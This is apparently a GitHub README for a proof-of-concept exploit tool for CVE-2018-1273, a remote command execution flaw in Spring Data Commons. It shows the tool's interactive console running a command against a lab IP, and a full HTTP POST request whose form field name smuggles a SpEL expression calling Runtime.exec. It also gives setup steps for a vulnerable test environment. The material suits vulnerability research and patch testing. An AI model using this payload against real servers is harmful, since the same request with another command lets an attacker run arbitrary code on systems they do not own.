

# CVE-2018-1273
Spring Data Commons RCE 远程命令执行漏洞

## usage


```
C:\Users\CTF\Desktop>python cve-2018-1273.py


  ______   ______    ___  ___ ______     ______ ________
 / ___/ | / / __/___|_  |/ _ <  ( _ )___<  /_  /_  /_  /
/ /__ | |/ / _//___/ __// // / / _  /___/ / __/ / //_ <
\___/ |___/___/   /____/\___/_/\___/   /_/____//_/____/

                 author: jas502n

     example: http://10.10.20.166:8080/account


Set Url: http://10.10.20.166:8080/account

Cmd >>: touch /tmp/jas502n

405, May Have a CVE-2018-1273 vulnerability!

CVE-2018-1273 Vulnerability Exit!

Cmd >>:

```

## BurpSuite request:
```
POST /account HTTP/1.1
Host: 10.10.20.166:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Content-Length: 96
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
cache-control: no-cache
Cookie: sidebar_collapsed=false
X-Forwarded-For: 127.0.0.2
Content-Type: application/x-www-form-urlencoded

name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch /tmp/jas502n')]=test
```

## 漏洞环境：

https://github.com/wearearima/poc-cve-2018-1273

```
mvn spring-boot:run

```
